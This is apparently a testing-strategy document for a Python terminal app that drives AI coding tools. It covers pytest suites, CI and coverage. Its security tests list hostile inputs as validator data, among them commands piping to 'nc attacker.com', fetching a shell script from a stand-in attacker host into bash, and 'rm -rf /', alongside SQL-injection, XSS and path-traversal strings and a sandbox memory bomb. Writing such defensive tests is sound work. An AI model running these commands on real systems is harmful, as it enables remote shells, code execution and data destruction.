

# Testing Strategy - claude-tui

## Table of Contents
1. [Testing Philosophy](#testing-philosophy)
2. [Testing Pyramid](#testing-pyramid)
3. [Unit Testing](#unit-testing)
4. [Integration Testing](#integration-testing)
5. [TUI Testing](#tui-testing)
6. [Anti-Hallucination Validation Testing](#anti-hallucination-validation-testing)
7. [Performance Testing](#performance-testing)
8. [Security Testing](#security-testing)
9. [CI/CD Pipeline](#cicd-pipeline)
10. [Test Coverage Requirements](#test-coverage-requirements)

## Testing Philosophy

### Core Principles
- **Test-Driven Development (TDD)**: Write tests before implementation
- **Comprehensive Coverage**: Aim for >80% code coverage
- **Fast Feedback**: Quick test execution for rapid iteration
- **Isolation**: Tests should be independent and deterministic
- **Meaningful Assertions**: Test behavior, not implementation
- **Anti-Hallucination Focus**: Validate AI output authenticity

## Testing Pyramid



### Test Distribution
- **Unit Tests (60%)**: Fast, isolated component testing
- **Integration Tests (30%)**: Component interaction testing
- **End-to-End Tests (10%)**: Full workflow validation

## Unit Testing

### Framework and Tools
```python
# requirements-test.txt
pytest==7.4.3
pytest-cov==4.1.0
pytest-asyncio==0.21.1
pytest-mock==3.12.0
pytest-timeout==2.2.0
hypothesis==6.92.1
freezegun==1.4.0
faker==20.1.0
```

### Test Structure
```python
# tests/unit/test_project_manager.py

import pytest
from unittest.mock import Mock, patch, AsyncMock
from auto_coder.core.project_manager import ProjectManager
from auto_coder.core.models import Project, Task

class TestProjectManager:
    """Test suite for ProjectManager class"""
    
    @pytest.fixture
    def manager(self):
        """Create ProjectManager instance with mocked dependencies"""
        return ProjectManager(
            ai_interface=Mock(),
            task_engine=Mock(),
            config=Mock()
        )
    
    @pytest.fixture
    def sample_project(self):
        """Create sample project for testing"""
        return Project(
            name="test-project",
            template="python",
            description="Test project"
        )
    
    def test_create_project_success(self, manager, sample_project):
        """Test successful project creation"""
        # Arrange
        manager.ai_interface.validate_project.return_value = True
        
        # Act
        result = manager.create_project(sample_project)
        
        # Assert
        assert result.id is not None
        assert result.status == "initialized"
        manager.ai_interface.validate_project.assert_called_once()
    
    def test_create_project_validation_failure(self, manager, sample_project):
        """Test project creation with validation failure"""
        # Arrange
        manager.ai_interface.validate_project.return_value = False
        
        # Act & Assert
        with pytest.raises(ValueError, match="Project validation failed"):
            manager.create_project(sample_project)
    
    @pytest.mark.asyncio
    async def test_execute_task_async(self, manager):
        """Test asynchronous task execution"""
        # Arrange
        task = Task(name="test-task", prompt="Generate code")
        manager.task_engine.execute = AsyncMock(return_value={"status": "completed"})
        
        # Act
        result = await manager.execute_task_async(task)
        
        # Assert
        assert result["status"] == "completed"
        manager.task_engine.execute.assert_awaited_once_with(task)
```

### Testing AI Interface
```python
# tests/unit/test_ai_interface.py

import pytest
from unittest.mock import patch, MagicMock
from auto_coder.core.ai_interface import ClaudeInterface

class TestClaudeInterface:
    """Test suite for Claude AI interface"""
    
    @pytest.fixture
    def interface(self):
        return ClaudeInterface(api_key="test-key")
    
    @patch('subprocess.run')
    def test_execute_claude_code(self, mock_run, interface):
        """Test Claude Code execution"""
        # Arrange
        mock_run.return_value = MagicMock(
            stdout='{"result": "success"}',
            stderr='',
            returncode=0
        )
        
        # Act
        result = interface.execute_claude_code("Generate function")
        
        # Assert
        assert result["result"] == "success"
        mock_run.assert_called_once()
        
    @patch('subprocess.run')
    def test_execute_claude_code_error(self, mock_run, interface):
        """Test Claude Code execution with error"""
        # Arrange
        mock_run.return_value = MagicMock(
            stdout='',
            stderr='API Error',
            returncode=1
        )
        
        # Act & Assert
        with pytest.raises(RuntimeError, match="Claude Code execution failed"):
            interface.execute_claude_code("Generate function")
```

### Property-Based Testing
```python
# tests/unit/test_validation_properties.py

from hypothesis import given, strategies as st
from auto_coder.core.validators import CodeValidator

class TestValidationProperties:
    """Property-based tests for validation logic"""
    
    @given(st.text(min_size=1))
    def test_placeholder_detection_consistency(self, code):
        """Test that placeholder detection is consistent"""
        validator = CodeValidator()
        
        # Multiple runs should give same result
        result1 = validator.has_placeholders(code)
        result2 = validator.has_placeholders(code)
        
        assert result1 == result2
    
    @given(
        st.integers(min_value=0, max_value=100),
        st.integers(min_value=0, max_value=100)
    )
    def test_progress_calculation_bounds(self, real, fake):
        """Test progress calculation stays within bounds"""
        validator = CodeValidator()
        
        total_progress = validator.calculate_total_progress(real, fake)
        
        assert 0 <= total_progress <= 100
        assert total_progress <= real  # Total can't exceed real progress
```

## Integration Testing

### Testing CLI Integration
```python
# tests/integration/test_cli_integration.py

import pytest
import subprocess
import json
from pathlib import Path

class TestCLIIntegration:
    """Integration tests for CLI tools"""
    
    @pytest.fixture
    def temp_project(self, tmp_path):
        """Create temporary project directory"""
        project_dir = tmp_path / "test-project"
        project_dir.mkdir()
        return project_dir
    
    def test_claude_code_integration(self, temp_project):
        """Test integration with Claude Code CLI"""
        # Execute Claude Code
        result = subprocess.run(
            ["claude-code", "--prompt", "Generate hello world", 
             "--output", str(temp_project / "hello.py")],
            capture_output=True,
            text=True
        )
        
        assert result.returncode == 0
        assert (temp_project / "hello.py").exists()
    
    def test_claude_flow_workflow(self, temp_project):
        """Test Claude Flow workflow execution"""
        # Create workflow file
        workflow = {
            "name": "test-workflow",
            "tasks": [
                {"name": "task1", "prompt": "Create function"},
                {"name": "task2", "prompt": "Add tests"}
            ]
        }
        
        workflow_file = temp_project / "workflow.yaml"
        workflow_file.write_text(json.dumps(workflow))
        
        # Execute workflow
        result = subprocess.run(
            ["npx", "claude-flow", "run", str(workflow_file)],
            capture_output=True,
            text=True,
            cwd=str(temp_project)
        )
        
        assert result.returncode == 0
        assert "task1" in result.stdout
        assert "task2" in result.stdout
```

### Database Integration Testing
```python
# tests/integration/test_database_integration.py

import pytest
from sqlalchemy import create_engine
from sqlalchemy.orm import sessionmaker
from auto_coder.database.models import Base, Project, Task
from auto_coder.database.repository import ProjectRepository

class TestDatabaseIntegration:
    """Integration tests for database operations"""
    
    @pytest.fixture
    def db_session(self):
        """Create test database session"""
        engine = create_engine("sqlite:///:memory:")
        Base.metadata.create_all(engine)
        Session = sessionmaker(bind=engine)
        session = Session()
        yield session
        session.close()
    
    def test_project_crud_operations(self, db_session):
        """Test CRUD operations for projects"""
        repo = ProjectRepository(db_session)
        
        # Create
        project = repo.create_project(
            name="test-project",
            template="python"
        )
        assert project.id is not None
        
        # Read
        fetched = repo.get_project(project.id)
        assert fetched.name == "test-project"
        
        # Update
        repo.update_project(project.id, description="Updated")
        updated = repo.get_project(project.id)
        assert updated.description == "Updated"
        
        # Delete
        repo.delete_project(project.id)
        deleted = repo.get_project(project.id)
        assert deleted is None
    
    def test_task_dependencies(self, db_session):
        """Test task dependency relationships"""
        repo = ProjectRepository(db_session)
        
        project = repo.create_project("test-project")
        task1 = repo.create_task(project.id, "task1")
        task2 = repo.create_task(project.id, "task2", depends_on=[task1.id])
        
        dependencies = repo.get_task_dependencies(task2.id)
        assert len(dependencies) == 1
        assert dependencies[0].id == task1.id
```

## TUI Testing

### Textual Testing Framework
```python
# tests/ui/test_tui_components.py

import pytest
from textual.app import App
from textual.testing import AppTest
from auto_coder.ui.widgets.project_tree import ProjectTree
from auto_coder.ui.widgets.progress_bar import ProgressBar

class TestTUIComponents:
    """Test suite for TUI components"""
    
    @pytest.mark.asyncio
    async def test_project_tree_rendering(self):
        """Test project tree widget rendering"""
        async with AppTest.create_app(ProjectTree) as pilot:
            # Add project to tree
            await pilot.widget.add_project("test-project", "/path/to/project")
            
            # Verify rendering
            assert "test-project" in pilot.widget.render()
            assert pilot.widget.project_count == 1
    
    @pytest.mark.asyncio
    async def test_progress_bar_updates(self):
        """Test progress bar updates"""
        async with AppTest.create_app(ProgressBar) as pilot:
            # Update progress
            await pilot.widget.set_progress(50)
            
            # Verify visual update
            rendered = pilot.widget.render()
            assert "50%" in rendered
            assert "████" in rendered  # Half-filled bar
    
    @pytest.mark.asyncio
    async def test_keyboard_navigation(self):
        """Test keyboard navigation in TUI"""
        class TestApp(App):
            def compose(self):
                yield ProjectTree()
        
        async with AppTest.create_app(TestApp) as pilot:
            # Test navigation keys
            await pilot.press("j")  # Move down
            await pilot.press("k")  # Move up
            await pilot.press("Enter")  # Select
            
            # Verify selection state
            assert pilot.app.query_one(ProjectTree).selected_index == 0
```

### Screen Testing
```python
# tests/ui/test_screens.py

import pytest
from textual.testing import AppTest
from auto_coder.ui.screens.welcome import WelcomeScreen
from auto_coder.ui.screens.project_setup import ProjectSetupScreen

class TestScreens:
    """Test suite for TUI screens"""
    
    @pytest.mark.asyncio
    async def test_welcome_screen_flow(self):
        """Test welcome screen user flow"""
        async with AppTest.create_app(WelcomeScreen) as pilot:
            # Verify initial state
            assert "Welcome to claude-tui" in pilot.screen.render()
            
            # Test navigation options
            await pilot.press("n")  # New project
            assert pilot.screen.next_action == "new_project"
            
            await pilot.press("o")  # Open project
            assert pilot.screen.next_action == "open_project"
    
    @pytest.mark.asyncio
    async def test_project_setup_validation(self):
        """Test project setup form validation"""
        async with AppTest.create_app(ProjectSetupScreen) as pilot:
            # Fill form with invalid data
            await pilot.type_text("", field="project_name")
            await pilot.press("Enter")
            
            # Verify validation error
            assert "Project name is required" in pilot.screen.errors
            
            # Fill valid data
            await pilot.type_text("my-project", field="project_name")
            await pilot.select_option("python", field="template")
            await pilot.press("Enter")
            
            # Verify success
            assert pilot.screen.project_created
```

## Anti-Hallucination Validation Testing

### Testing Placeholder Detection
```python
# tests/validation/test_placeholder_detection.py

import pytest
from auto_coder.core.validators import PlaceholderDetector

class TestPlaceholderDetection:
    """Test suite for placeholder detection"""
    
    @pytest.fixture
    def detector(self):
        return PlaceholderDetector()
    
    @pytest.mark.parametrize("code,expected", [
        ("# TODO: implement this", True),
        ("def func(): pass  # implement later", True),
        ("placeholder_function()", True),
        ("raise NotImplementedError", True),
        ("console.log('test')", True),
        ("def complete_function(): return x + 1", False),
        ("class RealImplementation: pass", False),
    ])
    def test_placeholder_patterns(self, detector, code, expected):
        """Test various placeholder patterns"""
        assert detector.has_placeholder(code) == expected
    
    def test_multi_file_detection(self, detector, tmp_path):
        """Test placeholder detection across multiple files"""
        # Create test files
        (tmp_path / "good.py").write_text("def add(a, b): return a + b")
        (tmp_path / "bad.py").write_text("def sub(a, b): pass  # TODO")
        
        # Scan directory
        results = detector.scan_directory(tmp_path)
        
        assert results["good.py"]["has_placeholders"] == False
        assert results["bad.py"]["has_placeholders"] == True
        assert results["bad.py"]["placeholder_count"] == 1
```

### Testing Progress Validation
```python
# tests/validation/test_progress_validation.py

import pytest
from unittest.mock import Mock, AsyncMock
from auto_coder.core.validators import ProgressValidator

class TestProgressValidation:
    """Test suite for progress validation"""
    
    @pytest.fixture
    def validator(self):
        return ProgressValidator(
            ai_interface=Mock(),
            code_analyzer=Mock()
        )
    
    @pytest.mark.asyncio
    async def test_real_vs_fake_progress(self, validator):
        """Test distinction between real and fake progress"""
        # Mock code analysis
        validator.code_analyzer.analyze.return_value = {
            "total_functions": 10,
            "implemented_functions": 7,
            "placeholder_functions": 3
        }
        
        # Calculate progress
        result = await validator.calculate_progress("/project")
        
        assert result.real_progress == 70  # 7/10 * 100
        assert result.fake_progress == 30  # 3/10 * 100
    
    @pytest.mark.asyncio
    async def test_ai_cross_validation(self, validator):
        """Test AI cross-validation for authenticity"""
        # Mock AI validation
        validator.ai_interface.validate_code = AsyncMock(
            return_value={"authentic": False, "issues": ["Empty functions"]}
        )
        
        code = "def func(): pass"
        result = await validator.cross_validate_with_ai(code)
        
        assert result.is_authentic == False
        assert "Empty functions" in result.issues
```

## Performance Testing

### Load Testing
```python
# tests/performance/test_load.py

import pytest
import asyncio
import time
from auto_coder.core.task_engine import TaskEngine

class TestPerformance:
    """Performance test suite"""
    
    @pytest.mark.performance
    @pytest.mark.asyncio
    async def test_concurrent_task_execution(self):
        """Test concurrent task execution performance"""
        engine = TaskEngine()
        
        # Create multiple tasks
        tasks = [
            engine.create_task(f"task-{i}", f"prompt-{i}")
            for i in range(100)
        ]
        
        # Measure execution time
        start = time.time()
        results = await asyncio.gather(
            *[engine.execute_task(task) for task in tasks]
        )
        duration = time.time() - start
        
        # Performance assertions
        assert len(results) == 100
        assert duration < 30  # Should complete within 30 seconds
        
        # Calculate throughput
        throughput = len(results) / duration
        assert throughput > 3  # At least 3 tasks per second
    
    @pytest.mark.benchmark
    def test_validation_performance(self, benchmark):
        """Benchmark validation performance"""
        validator = ProgressValidator()
        code = "def func():\n" * 1000  # Large code file
        
        # Benchmark validation
        result = benchmark(validator.validate_code, code)
        
        # Performance requirements
        assert benchmark.stats['mean'] < 0.1  # < 100ms average
        assert benchmark.stats['max'] < 0.5   # < 500ms worst case
```

### Memory Testing
```python
# tests/performance/test_memory.py

import pytest
import tracemalloc
from auto_coder.core.project_manager import ProjectManager

class TestMemoryUsage:
    """Memory usage test suite"""
    
    def test_memory_leak_detection(self):
        """Test for memory leaks in project management"""
        tracemalloc.start()
        
        manager = ProjectManager()
        
        # Create and destroy many projects
        for i in range(1000):
            project = manager.create_project(f"project-{i}")
            manager.delete_project(project.id)
        
        # Check memory usage
        current, peak = tracemalloc.get_traced_memory()
        tracemalloc.stop()
        
        # Memory should not grow significantly
        assert current < 100 * 1024 * 1024  # Less than 100MB
        assert peak < 200 * 1024 * 1024     # Peak less than 200MB
```

## Security Testing

### Input Validation Testing
```python
# tests/security/test_input_validation.py

import pytest
from auto_coder.security.validators import InputValidator

class TestSecurityValidation:
    """Security validation test suite"""
    
    @pytest.fixture
    def validator(self):
        return InputValidator()
    
    @pytest.mark.parametrize("input_str,expected", [
        ("'; DROP TABLE users; --", False),  # SQL injection
        ("<script>alert('XSS')</script>", False),  # XSS
        ("../../etc/passwd", False),  # Path traversal
        ("normal_input", True),  # Valid input
    ])
    def test_malicious_input_detection(self, validator, input_str, expected):
        """Test detection of malicious inputs"""
        assert validator.is_safe(input_str) == expected
    
    def test_command_injection_prevention(self, validator):
        """Test command injection prevention"""
        dangerous_inputs = [
            "test; rm -rf /",
            "test && cat /etc/passwd",
            "test | nc attacker.com 1337",
            "$(curl attacker.com/shell.sh | bash)"
        ]
        
        for input_str in dangerous_inputs:
            assert validator.is_safe_command(input_str) == False
```

### Sandbox Testing
```python
# tests/security/test_sandbox.py

import pytest
from auto_coder.security.sandbox import CodeSandbox

class TestSandboxSecurity:
    """Sandbox security test suite"""
    
    @pytest.fixture
    def sandbox(self):
        return CodeSandbox(
            memory_limit="512M",
            cpu_limit=1.0,
            timeout=10
        )
    
    def test_resource_limits(self, sandbox):
        """Test resource limit enforcement"""
        # Code that tries to use excessive memory
        memory_bomb = """
import sys
data = []
while True:
    data.append(' ' * 10**6)
        """
        
        with pytest.raises(MemoryError):
            sandbox.execute(memory_bomb)
    
    def test_filesystem_isolation(self, sandbox):
        """Test filesystem access restrictions"""
        # Code that tries to access system files
        malicious_code = """
with open('/etc/passwd', 'r') as f:
    print(f.read())
        """
        
        with pytest.raises(PermissionError):
            sandbox.execute(malicious_code)
    
    def test_network_isolation(self, sandbox):
        """Test network access restrictions"""
        # Code that tries to make network requests
        network_code = """
import urllib.request
response = urllib.request.urlopen('http://example.com')
        """
        
        with pytest.raises(Exception):
            sandbox.execute(network_code)
```

## CI/CD Pipeline

### Test Automation Configuration
```yaml
# .github/workflows/test.yml

name: Test Suite

on:
  push:
    branches: [main, develop]
  pull_request:
    branches: [main]

jobs:
  unit-tests:
    runs-on: ubuntu-latest
    strategy:
      matrix:
        python-version: [3.9, 3.10, 3.11]
    
    steps:
    - uses: actions/checkout@v3
    
    - name: Set up Python
      uses: actions/setup-python@v4
      with:
        python-version: ${{ matrix.python-version }}
    
    - name: Install dependencies
      run: |
        pip install -r requirements.txt
        pip install -r requirements-test.txt
    
    - name: Run unit tests
      run: |
        pytest tests/unit/ -v --cov=auto_coder --cov-report=xml
    
    - name: Upload coverage
      uses: codecov/codecov-action@v3
      with:
        file: ./coverage.xml
        fail_ci_if_error: true

  integration-tests:
    runs-on: ubuntu-latest
    needs: unit-tests
    
    services:
      postgres:
        image: postgres:15
        env:
          POSTGRES_PASSWORD: test
        options: >-
          --health-cmd pg_isready
          --health-interval 10s
          --health-timeout 5s
          --health-retries 5
    
    steps:
    - uses: actions/checkout@v3
    
    - name: Run integration tests
      run: |
        pytest tests/integration/ -v --timeout=60
    
  tui-tests:
    runs-on: ubuntu-latest
    needs: unit-tests
    
    steps:
    - uses: actions/checkout@v3
    
    - name: Run TUI tests
      run: |
        pytest tests/ui/ -v --timeout=30
    
  security-tests:
    runs-on: ubuntu-latest
    
    steps:
    - uses: actions/checkout@v3
    
    - name: Run security tests
      run: |
        pytest tests/security/ -v
    
    - name: Run security scan
      uses: aquasecurity/trivy-action@master
      with:
        scan-type: 'fs'
        scan-ref: '.'
        format: 'sarif'
        output: 'trivy-results.sarif'
    
    - name: Upload security results
      uses: github/codeql-action/upload-sarif@v2
      with:
        sarif_file: 'trivy-results.sarif'

  performance-tests:
    runs-on: ubuntu-latest
    if: github.event_name == 'push' && github.ref == 'refs/heads/main'
    
    steps:
    - uses: actions/checkout@v3
    
    - name: Run performance tests
      run: |
        pytest tests/performance/ -v -m performance
    
    - name: Store benchmark results
      uses: benchmark-action/github-action-benchmark@v1
      with:
        tool: 'pytest'
        output-file-path: benchmark_results.json
        github-token: ${{ secrets.GITHUB_TOKEN }}
        auto-push: true
```

## Test Coverage Requirements

### Coverage Configuration
```ini
# .coveragerc

[run]
source = auto_coder
omit = 
    */tests/*
    */migrations/*
    */__init__.py
    */config.py

[report]
precision = 2
show_missing = True
skip_covered = False

[html]
directory = htmlcov

[xml]
output = coverage.xml
```

### Coverage Requirements by Module
```yaml
coverage_requirements:
  overall: 80%
  
  core_modules:
    project_manager: 90%
    ai_interface: 85%
    task_engine: 90%
    validators: 95%  # Critical for anti-hallucination
  
  ui_modules:
    widgets: 75%
    screens: 70%
    app: 80%
  
  integration:
    cli_integration: 85%
    database: 90%
  
  security:
    sandbox: 100%  # Critical security component
    validators: 95%
```

### Coverage Reporting
```python
# tests/conftest.py

import pytest
from coverage import Coverage

def pytest_configure(config):
    """Configure pytest with coverage"""
    config._coverage = Coverage()
    config._coverage.start()

def pytest_unconfigure(config):
    """Generate coverage report"""
    config._coverage.stop()
    config._coverage.save()
    
    # Generate reports
    config._coverage.html_report(directory='htmlcov')
    config._coverage.xml_report(outfile='coverage.xml')
    
    # Print summary
    print("\n\nCoverage Summary:")
    config._coverage.report()
    
    # Check minimum coverage
    total = config._coverage.report()
    if total < 80:
        raise pytest.exit(f"Coverage {total}% is below minimum 80%")
```

## Test Utilities

### Test Fixtures
```python
# tests/fixtures.py

import pytest
from pathlib import Path
from auto_coder.core.project_manager import ProjectManager
from auto_coder.core.ai_interface import ClaudeInterface

@pytest.fixture
def mock_ai_interface(mocker):
    """Mock AI interface for testing"""
    mock = mocker.Mock(spec=ClaudeInterface)
    mock.execute_claude_code.return_value = {"status": "success"}
    mock.execute_claude_flow.return_value = {"status": "completed"}
    return mock

@pytest.fixture
def temp_project(tmp_path):
    """Create temporary project structure"""
    project_dir = tmp_path / "test_project"
    project_dir.mkdir()
    
    # Create standard structure
    (project_dir / "src").mkdir()
    (project_dir / "tests").mkdir()
    (project_dir / "docs").mkdir()
    
    return project_dir

@pytest.fixture
def sample_code_with_placeholders():
    """Sample code containing placeholders"""
    return """
def calculate_sum(a, b):
    # TODO: implement actual sum logic
    pass

def multiply(x, y):
    return x * y  # This is complete

def divide(a, b):
    raise NotImplementedError("Division not yet implemented")
"""
```

### Test Helpers
```python
# tests/helpers.py

import asyncio
from contextlib import contextmanager
import time

@contextmanager
def assert_duration(max_seconds):
    """Context manager to assert execution duration"""
    start = time.time()
    yield
    duration = time.time() - start
    assert duration < max_seconds, f"Took {duration}s, max allowed: {max_seconds}s"

async def wait_for_condition(condition_func, timeout=5, interval=0.1):
    """Wait for a condition to become true"""
    start = time.time()
    while time.time() - start < timeout:
        if await condition_func():
            return True
        await asyncio.sleep(interval)
    raise TimeoutError(f"Condition not met within {timeout} seconds")

def create_mock_validation_result(real_progress=70, fake_progress=30):
    """Create mock validation result for testing"""
    return {
        "real_progress": real_progress,
        "fake_progress": fake_progress,
        "placeholders": ["TODO in line 5", "NotImplemented in line 10"],
        "quality_score": 0.7,
        "auto_fix_available": True
    }
```

## Testing Best Practices

### Test Organization
- Group related tests in classes
- Use descriptive test names that explain what is being tested
- Follow AAA pattern: Arrange, Act, Assert
- Keep tests independent and idempotent

### Mocking Strategy
- Mock external dependencies (APIs, databases)
- Use real implementations for unit under test
- Verify mock interactions when relevant
- Don't over-mock - test real behavior when possible

### Async Testing
- Use pytest-asyncio for async test support
- Test both success and failure paths
- Verify proper cleanup of async resources
- Test timeout and cancellation scenarios

### Anti-Hallucination Testing
- Test with known placeholder patterns
- Verify cross-validation with multiple AI instances
- Test auto-completion workflows
- Measure accuracy of real vs fake progress detection

This comprehensive testing strategy ensures the claude-tui project maintains high quality, reliability, and security standards throughout development and deployment.